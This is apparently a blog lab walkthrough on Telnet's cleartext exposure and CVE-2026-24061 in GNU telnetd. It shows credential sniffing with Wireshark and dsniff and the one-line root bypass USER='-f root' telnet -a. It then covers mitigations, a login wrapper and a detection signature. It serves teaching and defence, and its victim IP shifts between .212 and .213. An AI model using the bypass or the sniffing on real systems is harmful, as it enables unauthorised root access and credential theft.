In 2026, still using Telnet is essentially the same as standing behind a transparent glass wall and changing clothes. The fundamental problem with this protocol is that it is "insecure by design." Any eavesdropper lurking on the digital highway can very easily see your passwords in clear text, plain as day. Astonishingly, this 'networking relic' from 1969 is still active on approximately 8 lakh (800,000) devices across the globe!
Telnet was originally created for ARPANET. Back then, it was an ad hoc protocol — meaning it was built on the fly to solve immediate problems, with no fixed standards or centralized rulebook.
Here's an analogy: imagine two friends sitting on a bus, devising a plan to dodge the conductor. They're not following any formal rules for their conversation; instead, they're using improvised signals that only they understand. If the other passengers overheard, they might think it was just weather talk or some random chit-chat. Early Telnet was a lot like that — a hastily assembled communication method with no formal rulebook to speak of.
Later, as the Internet began to grow, these informal conventions were brought into a formal framework. Even before the modern Internet Protocol suite, Telnet originally operated on top of the Network Control Protocol (NCP), predating the transition to TCP/IP.
Significant improvements to the protocol were made throughout the 1970s, and it was finally formalized with the publication of RFC 854 and RFC 855 in May 1983. These are collectively known as Internet Standard 8. It was much like a 'household rule' being elevated to 'national law.' As a result, any manufacturer's computer could achieve bidirectional 8-bit communications and connectivity with the remote system's Network Virtual Terminal (NVT) by following the same rules. While its name is formally written as "TELNET," it is not a strict acronym. However, many experts suggest it could stand for "Telecommunications Network" or "Teletype Over Network Protocol."
As the Internet's scope expanded, Telnet's 'open' nature became a major security liability. This is when SSH (Secure Shell) emerged. While SSH offered the same remote control capabilities as Telnet, its security was far superior. Its ability to protect passwords through encryption made it the symbol of trust for tech professionals.
So why, even in 2026, are nearly 800,000 Telnet servers still exposed worldwide?
The primary reason is "digital ghosts" — old legacy hardware (such as ancient Cisco routers) that does not support modern security protocols. On top of that, many administrators still use it as a quick troubleshooting tool — for instance, checking whether a port is open or testing a remote email server. It is primarily due to laziness and old habits that this dangerously outdated tool persists.
You might be thinking, "Telnet was already insecure to begin with; what further damage could a new CVE (Common Vulnerabilities and Exposures) possibly cause?" In the cybersecurity landscape, the situation is very much like "handing the master key to a thief standing at an open door."
Under normal circumstances, Telnet is insecure because it does not encrypt data. An attacker would need to be in a Man-in-the-Middle (MITM) position to steal information. However, a vulnerability like CVE-2026-24061 enables Remote Code Execution (RCE) or Authentication Bypass directly. Its impact is terrifying:
- The attacker doesn't even need to wait to steal a password.
- By sending a single crafted packet, they can break through the server's security and get inside.
- They can obtain direct root access without any username or password.
Once root access is obtained, there are no more boundaries in the system for the hacker. Normally, they
were merely a "spectator," but now they are the "supreme ruler" of the system. With a single command,
they can wipe all security logs to hide their tracks, steal encrypted copies of all passwords from the
/etc/shadow file, or even permanently plant a backdoor or malware. Most alarmingly, they
can use this compromised device as a "Jump Host" to launch attacks on all other secured devices in your
internal network — what we call Lateral Movement.
That's enough theory; now let's jump straight into the lab and get our hands dirty. Before this, I had published a post on my blog about how to set up VMware and Debian 10. I hope you already have that ready.
Lab Practice: Telnet Vulnerability Analysis
First, go to Activities on your system and open a Terminal.

Now update the package list using the following command. Keep in mind, this will not update the system's software; rather, it will sync the latest list of available software:
sudo apt update
To install the Telnet server, type:
sudo apt install inetutils-telnetd
After installation, you can verify the binary location of the Telnet server with this command:
dpkg -L inetutils-telnetd | grep sbin
Now let's check our victim machine's (Debian 10) IP address using the ip r command — it
turns out to be 192.168.1.212.

Before launching the attack, we need to create a new user who will use the Telnet service:
sudo adduser teluser
(Here we set the username: teluser and password: 12345)
Workflow from Kali Linux
Now let's switch over to our Kali Linux machine. First, send a ping request to the victim machine's IP to verify network connectivity.

The terminal output confirms our network connection is rock-solid. Now, to capture packets, we'll use
Wireshark. Type wireshark in the Kali terminal and hit Enter.

Once Wireshark opens, select your network interface. To confirm which interface you're using, run the
ip r command.

Since I'm using Wi-Fi, I selected wlan0 (for a wired connection, it would typically be
eth0).

Keep Wireshark running in the background, go back to the terminal, and press
Ctrl+Shift+T to open a new tab. Now type the Telnet connection command:
telnet 192.168.1.213

Unfortunately, we're seeing an "Unable to connect to remote host" error. Let's check
whether the port is even open. We could just check port 23, but for a more thorough approach, let's use
masscan for a rapid scan. As we can see, the Telnet service hasn't been activated on the
server yet.

Server Configuration & Troubleshooting (Debian 10)
Let's go back to the victim machine's terminal. Even though Telnet was installed, it hasn't been configured yet.

To manage the service, we'll use xinetd, which is comparatively more secure and flexible.
sudo apt update && sudo apt install xinetd
Now we need to tell xinetd that Telnet exists. To do this, create a configuration file:
sudo nano /etc/xinetd.d/telnet
Write the following code inside the file and save it:
service telnet
{
disable = no
flags = REUSE
socket_type = stream
wait = no
user = root
server = /usr/sbin/telnetd
log_on_failure += USERID
}
Save the file (Ctrl+O → Enter → Ctrl+X).
Here's what each line does:
disable = no: Enables the service.socket_type = stream: Because Telnet uses the TCP protocol.wait = no: Allows multiple users to connect simultaneously.server = /usr/sbin/telnetd: Points xinetd to the actual Telnet daemon binary.log_on_failure += USERID: Logs the user ID on failed login attempts (essential for SOC analysts).
Finally, restart xinetd.

Final Attack & Data Interception
If we scan again from Kali Linux, we'll see that port 23 is now open.

Now let's log in using our previously created teluser account:
telnet 192.168.1.213

After successfully logging in, switch back to Wireshark and stop the capture.

Now type "telnet" in the filter bar and search.

Right-click on any captured packet, then select Follow > TCP Stream.

Bingo! The username and password will surface right in front of you in perfectly clear text. Select ASCII or UTF-8 as the viewing mode and it's all right there.

As you can see, using Telnet is extremely risky and trivially easy for a hacker!
Advanced Analysis: When Simple Methods Don't Cut It
In some cases, if your client and server devices are on different networks, the username or password may not appear directly through "Follow TCP Stream." For a deeper investigation in such scenarios, I connected my client device to a different router.

Re-capturing Packets
In Wireshark, click the "Start capturing packets" button to begin a fresh capture session.

There's no need to save the previous session, so I selected "Continue without Saving".

Next, I went to the terminal and logged in again. I disabled capturing only after completing the task,
to avoid unnecessary traffic noise. Then I filtered by telnet and checked Follow >
TCP Stream once more.

Transport Layer Filtering (TCP Filtering)
Notice that this time, the plain-text username and password aren't immediately visible like before.
Earlier we used the telnet keyword, which is an Application Layer filter. Now let's use
tcp.port == 23 instead. This applies Transport Layer (TCP) filtering, which will show us
more detailed information including the TCP 3-Way Handshake.

In our case, TCP Filtering yielded the same log 🙂

However, if the output still isn't as expected, we need to analyze even more deeply. To do this, let's export the Wireshark traffic to a .pcap format.
The steps are:
- File > Save As…
- Select pcap as the format.
- Give the file a name (e.g.,
telnet_capture) and save.

I saved the telnet_capture.pcap file to
~/Desktop/telnet-vuln-lab(CVE-2026-24061).

Credential Extraction with dsniff
To extract credentials from the .pcap file with greater precision, we'll use a powerful tool called
dsniff. To see the tool's options, you can run dsniff -h in the terminal,
or use man dsniff for full documentation.


Since our file is already saved in .pcap format, we'll use a specific option to read it:
dsniff -p telnet_capture.pcap
After analyzing the file with dsniff, we got a stunning output. The tool successfully extracted the login credentials (Username & Password) along with the server and client IP addresses.
dsniff: magic: unknown decode: 'pop'. This occurs because dsniff attempts to decode
multiple protocols simultaneously, and when certain packets don't match the expected format, it throws
this warning. It's harmless and has no impact on the credential extraction.
This Is Just One Side of the Coin!
If a vulnerability like CVE-2026-24061 exists, calling it merely "changing clothes behind a transparent wall" would be a gross understatement; it's more like letting a thief into your house and saying — "Brother, come in, everything is yours!"
This CVE is a critical Authentication Bypass and Argument Injection
flaw in GNU Inetutils telnetd (versions 1.9.3 through 2.5). When a new client connects to the telnetd
server, the server accepts the USER environment variable sent via the client's
NEW-ENVIRON option (a Telnet feature) and passes it directly — without sanitization —
to the /usr/bin/login program.
If a hacker craftily sets the USER variable to -f root, the login program gets confused and
thinks — "Oh, this is the flag to skip authentication for the root user!" — and serves up a
root shell without requiring any password.
Our victim machine (Debian 10 + inetutils-telnetd via xinetd, IP: 192.168.1.212) is still running. So all we need is the following command:
USER='-f root' telnet -a 192.168.1.212
Bingo! We are now the system's Root User. With this single command, you can do whatever you please — wipe logs, create new backdoors, launch lateral movement attacks on other network devices, or even deploy ransomware.
If you check traffic using Wireshark (tcp.port == 23), you'll notice there is no username
or password anywhere; only the USER='-f root' packet being sent inside the NEW-ENVIRON
option from the client.

Global Context & Current Landscape
According to Shodan, approximately 2,12,396 devices worldwide currently have Telnet servers exposed (although not all of them necessarily run vulnerable GNU telnetd). However, a GreyNoise report (January 14, 2026) paints a hopeful picture — Telnet traffic has decreased by approximately 59% per hour. Hourly session counts have dropped from around 74,000 to approximately 11,000. Telnet traffic has nearly vanished in several countries including Ukraine, Canada, Poland, and Egypt. Major ISPs (such as Vultr, Cox, and BT) have likely started pro-active filtering, although this remains largely limited to the Western world so far.
How Will You Protect Yourself? (Mitigation Strategies)
To stay protected from this dangerous vulnerability, here are my recommendations:
1. Disable Telnet Entirely and Use SSH
Always use SSH (Secure Shell) instead of Telnet for remote management. SSH provides data encryption and superior authentication (such as SSH Keys). Since Telnet does not encrypt data at all, keeping it permanently disabled is the wisest course of action unless there's a very specific need.
2. Regular Patching and Updates
The Debian 10 (Buster) used in our lab is currently at the 'OldOldStable' or End of Life (EOL) stage. Therefore, obtaining a new version from the official repository is not possible. In such cases, you would need to download the latest source code from the GNU Inetutils official website and manually compile it.
3. Network Segmentation
If you must keep Telnet active for legacy or IoT devices, isolate those devices from the main network:
- VLAN Isolation: Place the devices in a separate VLAN so they don't have direct access to the internet.
- Firewall Blocking: Block port 23 at the firewall and only allow access from specific trusted IPs.
4. Custom Login Wrapper
If none of the above options are feasible, you can create a custom wrapper. While it may slow the system down slightly in production, it will ensure security.
Step 1: Back up the original login program:
sudo mv /usr/bin/login /usr/bin/login.real
Step 2: Create the new wrapper:
sudo nano /usr/bin/login
Then add the following script:
#!/bin/sh
# Custom Login Wrapper - CVE-2026-24061 Mitigation
args=""
for arg in "$@"; do
if [ "$arg" = "-f" ]; then
shift 2
continue
fi
args="$args $arg"
done
exec /usr/bin/login.real $args
Save the file (Ctrl+O → Enter → Ctrl+X). This script detects the -f
argument and strips it (along with its following word, e.g., root). As a result, even if a
hacker tries, they won't be able to bypass the password prompt. The easy road to root access is now
blocked!
Step 3: Set permissions and restart:
Give the new login file executable permission:
sudo chmod +x /usr/bin/loginRestart the xinetd service and check its status:
sudo systemctl restart xinetdsudo systemctl status xinetd
Verification: Login and Exploit Test
Now it's time to verify our security measures. We'll check two scenarios — a normal login and an exploit attempt.
1. Normal Login Test
First, let's try a regular Telnet connection from our client (Kali Linux). This will confirm that our wrapper isn't interfering with legitimate user logins.
Command: telnet 192.168.1.212

Here we can successfully log in with our created user teluser and password 12345.
2. Exploit Attempt
Now the real test! Let's use the same argument injection command that previously gave us direct root access without a password.
Command:
USER='-f root' telnet -a 192.168.1.212
Excellent! No more direct root prompt. Our custom wrapper has identified the injected
-f flag and stripped it out. The server now naturally asks for a password. The hacker's
easy road to root access is now sealed!
5. Assume Breach Audit
If you suspect that your system has already been compromised, check the following:
- NIDS Signature: Search for the
USER=-f rootstring within the NEW-ENVIRON option in your network traffic. - Log Monitoring: Check whether any Telnet sessions started directly as 'root' without password verification.
- System Check: Inspect
/etc/cron.d/or/root/.ssh/authorized_keysfor any unknown entries.
Conclusion
Remember, old or 'legacy' services are almost always the primary cause of major cyber attacks. So stay updated, and stay safe!
Stay safe, stay updated!
Read Bangla Article OffSec CVE Advisory GreyNoise Telnet Report